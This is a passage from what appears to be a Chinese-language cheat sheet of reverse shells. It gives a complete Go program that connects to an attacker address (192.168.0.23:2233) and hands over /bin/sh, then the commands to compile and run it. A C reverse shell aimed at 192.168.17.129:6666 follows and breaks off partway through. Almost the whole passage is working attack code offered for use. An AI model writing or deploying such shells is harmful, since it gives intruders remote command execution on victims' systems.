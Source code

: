   ```go
  // filename: ReverseShell.go
  package main
  import (
      "net"       // requirement to establish a connection
      "os"        // requirement to call os.Exit()
      "os/exec"   // requirement to execute commands against the target system
  )
  func main() {
      // Connecting back to the attacker
      // If it fails, we exit the program
      conn, err := net.Dial("tcp", "192.168.0.23:2233")
      if err != nil {
          os.Exit(1)
      }
      // Creating a /bin/sh process
      cmd := exec.Command("/bin/sh")
      // Connecting stdin and stdout
      // to the opened connection
      cmd.Stdin = conn
      cmd.Stdout = conn
      cmd.Stderr = conn
      // Run the process
      cmd.Run()
  }
  ```

- 编译执行

```
$ go build ReverseShell.go
$ ./ReverseShell
```

- 得到shell

还有更为完整的版本，详情可以看：https://www.cnblogs.com/zhangb8042/articles/10795123.html

## gcc(c)

- 脚本（linux版本）

  ```c
  //filename:ReverseShell.c
  #include <stdio.h>
  #include <unistd.h>
  #include <sys/types.h>
  #include <sys/socket.h>
  #include <arpa/inet.h>
  #include <signal.h>
  #include <dirent.h>
  #include <sys/stat.h>
  
  int tcp_port = 6666;
  char *ip = "192.168.17.129";
  
  void reverse_shell(){
          int fd;
          if ( fork() <= 0){
                  struct sockaddr_in addr;
                  addr.sin_family = AF_INET;
                  addr.sin_port = htons(tcp_port);
                  addr.sin_addr.s_addr = inet_addr(ip);
  
                  fd = socket(AF_INET, SOCK_STREAM, 0);
                  if ( connect(fd, (struct sockaddr*)&addr, sizeof(addr)) ){
                          exit(0);
  ```
